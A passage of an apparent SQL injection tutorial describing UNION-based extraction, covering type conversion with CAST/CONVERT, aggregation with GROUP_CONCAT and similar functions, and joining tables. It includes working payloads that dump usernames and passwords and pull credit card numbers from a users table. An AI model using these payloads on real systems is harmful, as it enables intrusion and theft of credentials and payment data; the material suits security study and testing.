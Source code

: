 
### **Step 3: Handling Data Type Mismatches**  
If columns in the original query have incompatible data types (e.g., numeric vs. string), attackers use functions like `CAST()` or `CONVERT()` to align them.  

#### **Database-Specific Functions for Type Conversion**:  
| **Database**       | **Function**                  | **Example**                                                                 |  
|---------------------|-------------------------------|-----------------------------------------------------------------------------|  
| **MySQL**           | `CAST()`, `CONVERT()`         | `CAST(id AS CHAR)`                                                          |  
| **MSSQL**           | `CAST()`, `CONVERT()`         | `CAST(id AS VARCHAR)`                                                       |  
| **PostgreSQL**      | `CAST()`, `::` operator       | `id::TEXT`                                                                  |  

#### **Example (MSSQL)**:  
```sql  
?id=1' UNION SELECT CAST(id AS VARCHAR), username, password FROM users--  
```  
This converts the numeric `id` to a string to match the original query’s data types.  

---

### **Step 4: Extracting Large Datasets**  
When tables contain many rows or columns, attackers use aggregation functions to collapse data into a single string.  

#### **Aggregation Functions Across Databases**:  
| **Database**       | **Function**                  | **Syntax**                                                                 |  
|---------------------|-------------------------------|-----------------------------------------------------------------------------|  
| **MySQL**           | `GROUP_CONCAT()`              | `GROUP_CONCAT(column SEPARATOR ', ')`                                       |  
| **PostgreSQL**      | `STRING_AGG()`                | `STRING_AGG(column, ', ')`                                                 |  
| **MSSQL**           | `FOR XML PATH('')`            | `(SELECT column + ',' FROM table FOR XML PATH(''))`                         |  

#### **Example (MySQL)**:  
```sql  
?id=1' UNION SELECT GROUP_CONCAT(username, ':', password), NULL, NULL FROM users--  
```  
This payload concatenates all usernames and passwords into a single string, simplifying data extraction.  

---

### **Advanced Techniques**  
#### **1. Pivoting Across Tables**  
Attackers combine data from unrelated tables to extract comprehensive information.  
```sql  
?id=1' UNION SELECT NULL, u.username, c.card_number FROM users u JOIN credit_cards c ON u.id = c.user_id--  
```  
This retrieves usernames and associated credit card numbers from separate tables.  

